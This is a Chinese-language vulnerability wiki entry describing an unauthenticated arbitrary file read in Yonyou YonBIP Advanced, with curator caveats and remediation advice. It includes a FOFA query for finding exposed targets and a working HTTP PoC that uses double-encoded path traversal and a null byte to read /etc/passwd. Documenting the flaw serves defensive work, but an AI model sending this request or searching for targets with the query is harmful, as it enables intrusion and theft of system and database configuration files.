

# 用友YonBIP高级版 yonbiplogin双编码路径读取

## 条目说明

- 对象与具体问题：用友YonBIP高级版；yonbiplogin双编码路径读取
- 版本、配置及部署条件：无版本；Linux及双解码/截断前提
- 认证与权限前提：声称未认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 错GRP-U8目录；FOFA截断
- %252F与%2500.png.js特定解析绕过需说明，不能泛称所有读取
- HTTP无围栏，成功只图，在野/修复范围无证

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

用友YonBIP高级版yonbiplogin处 存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## 影响版本

用友YonBIP高级版

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：title="数字化工作台" || title="YonBIP"

POC/EXP：

```http
GET /iuap-apcom-workbench/ucf-wh/yonbiplogin/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%2500.png.js HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```





## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
